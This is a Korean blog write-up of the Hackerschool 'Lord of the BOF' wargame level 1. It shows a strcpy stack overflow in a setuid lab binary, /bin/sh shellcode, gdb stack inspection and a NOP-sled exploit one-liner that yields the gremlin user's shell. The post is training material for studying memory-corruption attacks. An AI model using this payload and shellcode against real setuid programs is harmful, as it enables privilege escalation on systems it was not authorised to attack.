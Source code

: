 ```yaml
---
layout: post
title: "[Wargame]  해커스쿨 BoF LEVEL1 (gate -> gremlin) :  simple bof"
date: 2015-10-18 21:00
comments: true
categories:  wargame
tags: [bof]
---
```


[해커스쿨 왕기초편](http://www.hackerschool.org/Sub_Html/HS_University/bof_1.html)을 읽고 나서 제대로 BoF 훈련을 해보기 위하여 [BoF 원정대 Wargame](http://www.hackerschool.org/HS_Boards/zboard.php?id=HS_Notice&no=1170881885)을 시작하였다.
Stage 하나하나 직접 해보자. :)

<!--more-->

## BoF LEVEL1 (gate -> gremlin) :  simple bof

256bytes 사이즈의 큰 buffer 에 BoF 완성하면 되는 문제.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

## shellcoe 확보

Scratch 부터  shellcode 작성할 수 있으면 좋겠지만.. 우선은 Linux x86 에서 shell 띄우는 shellcode 를 찾아보았다.

[Writing shellcode for Linux and *BSD](http://www.kernel-panic.it/security/shellcode/shellcode5.html)

### c-code

`execve()` 이용하여 `/bin/sh` 실행하는 아주 간단한 코드. 

```c
#include <unistd.h>

int main() {
        char *args[2];
        args[0] = "/bin/sh";
        args[1] = NULL;
        execve(args[0], args, NULL);
}
```

BoF 원정대의 VM 환경에서 shell 띄우기 동작함.

```bash
> gcc -g -o get_shell get_shell.c 
> ./get_shell 
bash$ id
uid=500(gate) gid=500(gate) groups=500(gate)
```

### shellcode : assembly 변환

위의 c 코드를  compile 된 obj 를 가지고 shellcode 로서 동작시키 위하여 null byte 를 없애는 등의 작업을 해야하는데... 우선 초보이므로 최종 결과물을 사용해보자.  대신 좀더 익숙해지면 반드시 직접 손으로 shellcode 짜야한다. 

### 최종 shellcode

```c
char shellcode[] = "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46"
                   "\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
                   "\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";
int main()
{
        int *ret;
        ret = (int *)&ret + 2;
        (*ret) = (int)shellcode;
}
```

## Dynamic debugging

BoF 를 하기 위하여 중요한 정보는 다음과 같다.

- Buffer size
- Return address

우리는 Wargame 으로서 소스를 가지고 있어서 buffer 의 사이즈가 256bytes 라는 것은 운좋게도 알고 있는 상황이다. 

### Return address 확인

하지만 코드가 수행되고 있는 stack address 는 알지 못한다. 이 값을 알아야 BoF 에서 가장 중요한 stack 에 저장된 saved return address 대신에 exploit code 의 어드레스로 바꾸어 주어야 한다. 

문제의 실행파일인 `gremlin` 파일의 권한이 `gremlin` 이라서  1단계 `gate` 는 권한이 부족하여 gdb debugging 이 제대로 되지 않는 것 같다.

```bash
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
```

대신 직접 compile 하여 gdb debugging 을 하여 보자.

```bash
> gcc -g -o gremlin2 gremlin.c
> ls -al
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
-rwxrwxr-x    1 gate     gate        12583 Oct 25 16:04 gremlin2
```

	
```bash
(gdb) disas
Dump of assembler code for function main:
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %esp,%ebp
0x8048433 <main+3>:     sub    $0x100,%esp
0x8048439 <main+9>:     cmpl   $0x1,0x8(%ebp)
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   $0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    $0x4,%esp
0x804844c <main+28>:    push   $0x0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    $0x4,%esp
0x8048456 <main+38>:    mov    0xc(%ebp),%eax
0x8048459 <main+41>:    add    $0x4,%eax
0x804845c <main+44>:    mov    (%eax),%edx
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    0xffffff00(%ebp),%eax
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    $0x8,%esp
0x804846e <main+62>:    lea    0xffffff00(%ebp),%eax
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   $0x80484ec
0x804847a <main+74>:    call   0x8048350 <printf>
0x804847f <main+79>:    add    $0x8,%esp
0x8048482 <main+82>:    leave  
0x8048483 <main+83>:    ret   
```

```bash
(gdb) x/100x $esp
0xbffff920:     0xbffff928      0xbffffb86      0x90909090      0x90909090
0xbffff930:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff940:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff950:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff960:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff970:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff980:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff990:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9a0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9d0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9e0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa00:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa10:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa20:     0x90909090      0x90909090      0xbffffa00      0x400309cb
0xbffffa30:     0x00000002      0xbffffa74      0xbffffa80      0x40013868
0xbffffa40:     0x00000002      0x08048380      0x00000000      0x080483a1
0xbffffa50:     0x08048430      0x00000002      0xbffffa74      0x080482e0
0xbffffa60:     0x080484bc      0x4000ae60      0xbffffa6c      0x40013e90
0xbffffa70:     0x00000002      0xbffffb72      0xbffffb86      0x00000000
0xbffffa80:     0xbffffc87      0xbffffca9      0xbffffcb3      0xbffffcc1
0xbffffa90:     0xbffffce0      0xbffffced      0xbffffd05      0xbffffd1f
0xbffffaa0:     0xbffffd3e      0xbffffd49      0xbffffd57      0xbffffd97
```

버퍼 사이즈가 충분히 길기 때문에 shellcode 38bytes 앞에 [NOP] 를 넣고, 가장 중요한 [LR] 넣어서 exploit 구성함.

```bash
[Buffer 256 bytes] + [SFP 4bytes]      + [LR 4 bytes]
[NOP 222 bytes] + [shell code 38bytes] + [LR=0xbffff980]
```

## BoF Exploit

```bash
./gremlin `python -c 'print "\x90"*222 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x80\xf9\xff\xbf"'`
```

```bash
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*222 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x80\xf9\xff\xbf"'`
^1F嵬bin/sh
                bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)

bash$ my-pass
euid = 501
hello bof world
```


